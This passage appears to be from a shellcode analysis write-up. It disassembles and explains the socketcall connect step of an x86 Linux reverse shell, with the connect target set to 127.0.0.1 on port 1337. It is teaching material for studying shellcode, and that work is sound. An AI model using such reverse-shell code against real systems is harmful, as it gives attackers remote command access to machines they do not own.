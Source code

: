 ![dup2](images/revshell/dup2.png)

### socketcall - connect
``` assembly
0x0804c058 <+24>:	push   0x100007f
0x0804c05d <+29>:	push   0x39050002
0x0804c062 <+34>:	mov    ecx,esp
0x0804c064 <+36>:	mov    al,0x66
0x0804c066 <+38>:	push   eax
0x0804c067 <+39>:	push   ecx
0x0804c068 <+40>:	push   ebx
0x0804c069 <+41>:	mov    bl,0x3
0x0804c06b <+43>:	mov    ecx,esp
0x0804c06d <+45>:	int    0x80
```
First there are two pushes executed. First we see the adress to connect to which is in this case 127.0.0.1. The next push pushes the word for the network byte ordered port 1337 together with the adress family AF_INET (2). The address of the top of the stack / arguments is saved to ecx. Then the length of the struct is pushed followed by the address of the struct which is in ecx and then also the sockfd. Eax is loaded with 0x66 which is again socketcall and ebx to 0x3 which is the connect function.
